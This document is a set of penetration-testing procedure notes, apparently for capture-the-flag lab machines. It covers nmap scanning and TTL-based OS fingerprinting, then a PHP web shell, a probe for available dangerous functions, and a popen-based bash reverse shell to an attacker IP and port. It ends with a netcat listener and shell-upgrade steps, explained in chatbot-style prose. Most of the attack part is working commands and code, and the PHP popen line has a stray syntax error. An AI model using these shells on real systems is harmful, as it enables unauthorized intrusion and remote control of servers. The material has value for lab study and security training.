 ### Procedures

#### Recon

##### NMAP

``` nmap -sC -sV -A -Pn -oA nmap/<fileOutput> <ipOrDomain> ```


##### VHOSTS - Domains
Add any domains found to /etc/hosts

##### Confirm target OS
Confirm target OS with ping /dcpdump and TTL and correlate with nmap discovery banner

* Linux/MAC OS – 64
* Windows – 128
* Cisco Routers – 255
* DNS – depends on the DNS resolver (can range from 128 to 86400)

```
ping 10.129.181.116
PING 10.129.181.116 (10.129.181.116) 56(84) bytes of data.
64 bytes from 10.129.181.116: icmp_seq=1 ttl=63 time=7.63 ms
64 bytes from 10.129.181.116: icmp_seq=2 ttl=63 time=7.78 ms
64 bytes from 10.129.181.116: icmp_seq=3 ttl=63 time=7.76 ms
```

So this confirms the TTL 63 so Linux box

You can also use tcpdump as follows:

``` 
tcpdump -i tun0 -v -n ip src 10.129.181.116
```
then on another shell drop netat to 22 for example

```
nc -zv 10.129.181.116 22
```

And you should be able to only see the packets as follows below ```ttl 63```

```
root@cloud1:/opt/repos# tcpdump -i tun0 -v -n ip src 10.129.181.116
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
11:05:26.008219 IP (tos 0x0, ttl 63, id 0, offset 0, flags [DF], proto TCP (6), length 60)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [S.], cksum 0x9708 (correct), seq 1050554249, ack 1765552463, win 65160, options [mss 1357,sackOK,TS val 2162116772 ecr 2221788402,nop,wscale 7], length 0
11:05:26.019534 IP (tos 0x0, ttl 63, id 32497, offset 0, flags [DF], proto TCP (6), length 52)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [.], cksum 0xc1e3 (correct), ack 2, win 510, options [nop,nop,TS val 2162116784 ecr 2221788410], length 0
11:05:26.073981 IP (tos 0x0, ttl 63, id 32498, offset 0, flags [DF], proto TCP (6), length 93)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [P.], cksum 0x9d54 (correct), seq 1:42, ack 2, win 510, options [nop,nop,TS val 2162116838 ecr 2221788410], length 41
11:05:26.074296 IP (tos 0x0, ttl 63, id 32499, offset 0, flags [DF], proto TCP (6), length 52)
    10.129.181.116.22 > 10.10.15.41.46576: Flags [F.], cksum 0xc182 (correct), seq 42, ack 2, win 510, options [nop,nop,TS val 2162116839 ecr 2221788410], length 0
```

##### Interesting Tools
OSINT (Open Source Intelligence Tools)

- GitTools - https://github.com/internetwache/GitTools
-------------------------

##### Manual Inclusion of Php Shell
```
<?php system("whoami"); ?>
```

phpinfo allows us check if system / popen and other mods are disabled
```
<?php phpinfo(); ?>
```

if so dfunction bypass so we create a nice php file which we include in a request to map what we can do as followws

##### Creation of dangerous.php

```
<?php 
$dangerous_functions = array('popen','system');

foreach($dangerous_functions as $f) {
    if (function_exists($f)) {
        echo $f . " exists<br>\n";
    }
}
```

So output came with popen as a nice possibility

so ... as a reference here is php popen manual :D --> https://www.php.net/manual/en/function.popen.php
so we did some mods :D as follows below

```
<?php
error_reporting(E_ALL);

/* Add redirection so we can get stderr. */
$handle = popen('bash -c "bash -i > & /dev/tcp/<OUR_IP>/<OUR_PORT> 0>&1"'>, 'r');

/* example $handle = popen('bash -c "bash -i > & /dev/tcp/127.0.0.1/9001 0>&1"'>, 'r'); */

echo "'handle'; " . gettype($handle) . "\n";
$read = fread($handle, 2096);
echo $read;
pclose($handle);

?>
```

This PHP script is attempting to establish a reverse shell connection to a specified IP address and port using the popen() function, which opens a pipe to a process started by the given command. Here's a breakdown of the script:

Here's what the script does:

It sets the error reporting level to report all PHP errors.
It uses popen() to execute a Bash command. This command attempts to establish a reverse shell connection to <OUR_IP> on <OUR_PORT>. <OUR_IP> and <OUR_PORT> should be replaced with the attacker's IP address and listening port, respectively.
It outputs the type of the $handle variable, which is a resource returned by popen().
It reads up to 2096 bytes of output from the command execution using fread() and echoes it.
Finally, it closes the pipe to the process using pclose().
It's important to note that executing shell commands from within PHP can be dangerous, especially if user input is involved, as it can lead to security vulnerabilities such as command injection. Additionally, the use of reverse shells for unauthorized access to systems is unethical and likely illegal.

we start our server that will reverse the shell using netcat as follows:

``` nc -lvnp 9001 ```

This command listens (`-l`) on port 9001 (`-p 9001`) for incoming connections (`-n` option disables DNS resolution) using the netcat (`nc`) utility in listening mode (`-l`). 

- `-v`: Enables verbose mode, which provides more detailed output.
- `-n`: Suppresses DNS resolution for IP addresses, which can speed up connection establishment.
- `-p 9001`: Specifies the port number (9001 in this case) on which to listen for incoming connections.

So, when you run this command, your system will start listening for incoming TCP connections on port 9001. This is often used in scenarios where you want to set up a simple network server for testing or other purposes.

when we have the server listening on this shell we send the request with our crafted shell and load it

we should have droped to the shell on target server on the nc shell

when the target server shell is spawned, we might want to :

``` python3 -c 'import pty;pty.spawn("/bin/bash")' ```

then

``` stty raw -echo;fg ```

This Python command invokes an interactive Bash shell from within a Python session. Let me break it down for you:

- `python3`: This is the command to invoke the Python interpreter. It indicates that the following code should be executed using Python 3.

- `-c`: This flag tells Python to execute the following string as a command.

- `'import pty;pty.spawn("/bin/bash")'`: This is the Python code to be executed. It first imports the `pty` module, which stands for "pseudo terminal utilities". Then it uses the `spawn` function from the `pty` module to spawn a new process running `/bin/bash`, which is the Bash shell.

So, when you run this command, it effectively starts a new interactive Bash shell within your current terminal session, allowing you to execute commands as if you were using a regular Bash shell.

This command performs two operations:

1. `stty raw -echo`: This command configures the terminal to operate in "raw" mode and disables echoing. In raw mode, input is passed directly to the application without any interpretation or line buffering by the terminal driver. Disabling echoing means that characters typed by the user will not be displayed on the screen.

2. `fg`: This command brings the most recently suspended job into the foreground. If no job is specified, it brings the current job into the foreground. This is typically used to resume a suspended process.

So, when you execute this command, it configures the terminal to operate in raw mode without echoing, and then brings the most recently suspended job (if any) into the foreground. This is often used in combination with the Python command (`import pty;pty.spawn("/bin/bash")`) to enhance the interactivity and usability of the spawned Bash shell.

then as final step 

```export TERM=xterm```

Setting `TERM=xterm` is used to define the terminal type or emulation. The `TERM` environment variable specifies the type of terminal that the shell should emulate. 

In this case, `xterm` is a widely supported terminal emulation, often used in Unix-like operating systems. Setting `TERM=xterm` tells programs running in the shell to use the characteristics of the xterm terminal emulator.

This setting can be useful for ensuring compatibility with programs that rely on specific terminal features or behaviors. It's commonly used when interacting with remote systems or when running terminal-based applications that require a particular terminal type to function correctly.